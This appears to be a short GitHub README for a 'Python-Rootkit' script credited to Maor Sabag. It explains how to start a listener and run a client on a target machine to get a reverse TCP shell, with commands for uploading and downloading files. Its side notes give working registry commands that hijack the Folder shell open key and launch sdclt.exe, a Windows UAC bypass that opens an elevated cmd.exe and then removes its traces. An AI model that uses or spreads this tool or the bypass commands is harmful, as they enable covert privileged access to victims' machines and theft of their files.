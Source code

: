 # Python-Rootkit
> Original Author: Maor Sabag
> 
A simple Python-Rootkit script

# Usage

1. Start up the server first to listen for TCP connection. Python3 server.py
2. Start the client side on the machine you want to get a reverse TCP shell.
3. Extra commands:
  - put|\<filename\> to upload the file on the client side.
  - get|\<filename\> up to download the file from the client to the current folder the script is running.


## Side notes:
reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "cmd.exe" /f && reg add HKCU\Software\Classes\Folder\shell\open\command /v "DelegateExecute" /f
%windir%\system32\sdclt.exe
reg delete "HKCU\Software\Classes\Folder\shell\open\command" /f
